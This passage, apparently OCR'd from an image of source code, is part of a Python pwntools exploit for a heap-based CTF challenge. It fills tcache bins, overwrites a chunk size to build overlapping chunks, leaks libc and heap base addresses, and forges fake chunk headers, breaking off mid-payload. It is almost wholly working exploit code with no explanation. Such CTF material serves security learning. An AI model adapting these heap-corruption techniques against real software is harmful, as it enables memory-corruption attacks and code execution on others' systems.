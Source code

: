 ```
    #make tcache size 0x217 full
    for i in range(0, 7):
        buy_house(7, 0x217, "\x00")
        sell(7)

    #chunk after tcache and before tmp tcache bins
    buy_house(2, 0x80, "x" * 0x10)
    sell(2)
    buy_house(0, 0x400, "\xaa" * 0x400)
    buy_house(1, 0xa0, "\xbb" * 0xa0)
    buy_house(2, 0x90, "\xcc" * 0x90)
    buy_house(3, 0x90, "\xdd" * 0x90)

    #overlapping first
    upgrade(0, "\xaa" * 0x400 + p64(0) + p64(0x8d1))

    for i in range(0, 7):
        buy_house(7, 0x90, "\x11" * 0x90)
        sell(7)

    #unsorted bin
    buy_house(4, 0x90, "\x44" * 0x90)
    buy_house(5, 0x90, "\x55" * 0x90)
    buy_house(6, 0x90, "\x66" * 0x90)
    buy_house(7, 0x90, "\x77" * 0x90)


    #a big chunk
    sell(1)
    #pause()
    buy_house(1, 0x8c0, "\xbb" * 0xa0 +
              p64(0) + p64(0xa1) + "\xcc" * 0x90 +
              p64(0) + p64(0xa1) + "\xdd" * 0x90 +
              (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
              p64(0) + p64(0xa1) + "\x44" * 0x90 +
              p64(0) + p64(0xa1) + "\x55" * 0x90 +
              p64(0) + p64(0xa1) + "\x66" * 0x90 +
              p64(0) + p64(0xa1) + "\x77" * 0x90 )
    #pause()
    sell(4)
    sell(6)

    #leak
    show_house(1, reading = False)
    for i in range(0, 10):
        ru(p64(0xa1))
    leaked_libc = u64(p.read(8))
    leaked_heap = u64(p.read(8))

    libc_base = leaked_libc - 0x1e4ca0
    heap_base = leaked_heap - 0x1d60
    log.critical("libc_base --> {}".format(hex(libc_base)))
    log.critical("heap_base --> {}".format(hex(heap_base)))


    sell(1)
    #pause()
    buy_house(1, 0x8c0, "\xbb" * 0xa0 +
              p64(0) + p64(0x21) + "\xcc" * 0x10 +
              p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
              p64(0) + p64(0xa1) + "\xdd" * 0x90 +
              (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
```